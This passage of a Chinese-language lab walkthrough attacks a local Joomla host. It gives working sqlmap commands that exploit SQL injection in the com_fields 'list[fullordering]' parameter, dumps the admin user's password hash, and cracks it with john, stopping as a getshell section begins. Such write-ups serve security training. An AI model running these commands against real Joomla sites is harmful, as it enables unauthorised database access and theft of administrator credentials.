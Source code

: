 跑出来的表有 `91` 条！但是我们只需要它后台管理员的用户那个表就好，接着我找到了一个为`#__users`的表，随后我开始注入它的列：

```text
sqlmap -u "http://192.168.1.103/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" --columns
Database: joomladb
Table: #__users
[6 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | non-numeric |
| id       | numeric     |
| name     | non-numeric |
| params   | non-numeric |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+
```

最后注入出它的 `username` 和 `password` 列的数据：

```text
sqlmap -u "http://192.168.1.103/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" -C username,password --dump 
```

  

![](https://pic4.zhimg.com/80/v2-3c239d846f8ff2dd395640a6c851178f_720w.webp)

  

注入出来后得到了账号和一段加密的`hash`：

```text
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
+----------+--------------------------------------------------------------+
```

一般来说这种加密需要用字典来撞，运气好就能得到它的明文！我是使用 `KALI` 自带的 `john` 来破解它的 `hash`：

  

![](https://pic3.zhimg.com/80/v2-17c174e3c3af15721d945c0aa8019ae2_720w.webp)

  

因为我之前使用 `john` 破解过 `pass` 的 `hash`了，`john` 只会对同一个文件破解一次，所以我直接查看了上一次的爆破结果密码为：`snoopy`！

## Joomla Getshell

拿到密码后我登陆到了网站到后台：
